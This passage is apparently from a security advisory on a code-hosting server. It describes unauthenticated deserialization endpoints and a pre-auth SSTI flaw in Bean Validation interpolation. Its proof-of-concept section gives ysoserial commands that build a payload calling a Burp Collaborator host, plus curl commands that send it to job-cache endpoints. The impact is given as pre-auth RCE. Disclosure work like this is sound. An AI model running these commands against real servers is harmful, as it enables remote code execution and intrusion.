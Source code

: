 		<span class="n">jobManager</span><span class="o">.</span><span class="na">reportJobCaches</span><span class="o">(</span><span class="n">getJobToken</span><span class="o">(),</span> <span class="n">cacheInstances</span><span class="o">);</span>
	<span class="o">}</span>
</code></pre></div></div>

<p>These endpoints do not enforce any authentication or authorization checks.</p>

<h3 id="poc-1">PoC</h3>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>java -jar ~/Dev/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://pzs6r9v6ryn8go4gnk26o91xqowgk5.burpcollaborator.net &gt; deser_payload.bin`
curl -H "Content-Type:application/octet-stream" --data-binary @deser_payload.bin http://localhost:6610/rest/k8s/allocate-job-caches
</code></pre></div></div>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>java -jar ~/Dev/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS http://pzs6r9v6ryn8go4gnk26o91xqowgk5.burpcollaborator.net &gt; deser_payload.bin
curl -H "Content-Type:application/octet-stream" --data-binary @deser_payload.bin http://localhost:6610/rest/k8s/report-job-caches
</code></pre></div></div>

<h4 id="impact-1">Impact</h4>
<p>This issue may lead to <code class="language-plaintext highlighter-rouge">pre-auth RCE</code></p>

<h3 id="issue-3-pre-auth-ssti-via-bean-validation-message-tampering">Issue 3: Pre-Auth SSTI via Bean validation message tampering</h3>
<p>There are many custom validators using Java Bean Validation (JSR 380) custom constraint validators. Apparently a similar issue was reported in the past (<code class="language-plaintext highlighter-rouge">fix issue #88: Users able to edit build spec can execute arbitrary java </code>) and it was fixed by this <a href="https://github.com/theonedev/onedev/commit/4f5dc6fb9e50f2c41c4929b0d8c5824b2cca3d65">commit</a> by disabling EL interpolation:</p>

<div class="language-diff highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="gd">-	Configuration&lt;?&gt; configuration = Validation.byDefaultProvider().configure();
</span><span class="gi">+	Configuration&lt;?&gt; configuration = Validation
+			.byDefaultProvider()
+			.configure()
+			.messageInterpolator(new ParameterMessageInterpolator());
</span></code></pre></div></div>

<p>This effectively disables EL interpolation in most cases, but I found that this configuration is not applied for the Jersey server which uses a different <code class="language-plaintext highlighter-rouge">ValidatorFactory</code> configuration defined in <a href="https://github.com/theonedev/onedev/blob/main/server-core/src/main/java/io/onedev/server/rest/jersey/ValidationConfigurationContextResolver.java">ValidationConfigurationContextResolver</a>:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code>    <span class="kd">public</span> <span class="nc">ValidationConfig</span> <span class="nf">getContext</span><span class="o">(</span><span class="kd">final</span> <span class="nc">Class</span><span class="o">&lt;?&gt;</span> <span class="n">type</span><span class="o">)</span> <span class="o">{</span>
    	<span class="nc">ValidatorFactory</span> <span class="n">factory</span> <span class="o">=</span> <span class="nc">AppLoader</span><span class="o">.</span><span class="na">getInstance</span><span class="o">(</span><span class="nc">ValidatorFactory</span><span class="o">.</span><span class="na">class</span><span class="o">);</span>
        <span class="nc">ValidationConfig</span> <span class="n">config</span> <span class="o">=</span> <span class="k">new</span> <span class="nc">ValidationConfig</span><span class="o">();</span>
        <span class="n">config</span><span class="o">.</span><span class="na">constraintValidatorFactory</span><span class="o">(</span><span class="n">factory</span><span class="o">.</span><span class="na">getConstraintValidatorFactory</span><span class="o">());</span>
        <span class="n">config</span><span class="o">.</span><span class="na">messageInterpolator</span><span class="o">(</span><span class="n">factory</span><span class="o">.</span><span class="na">getMessageInterpolator</span><span class="o">());</span>